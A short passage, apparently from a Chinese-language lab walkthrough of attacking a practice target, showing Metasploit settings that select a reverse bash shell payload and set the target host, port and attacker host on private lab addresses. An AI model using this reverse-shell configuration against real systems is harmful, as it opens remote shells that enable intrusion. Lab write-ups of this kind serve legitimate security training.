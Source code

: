 ![靶标一攻击02](./images/靶标一攻击02.png)

选择需要的payload，对剩下需要配置的进行配置：
```
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.240.131   #靶机IP
set RPORT  8080    #靶机目标端口  
set LHOST  192.168.240.135   #攻击者主机IP 
```
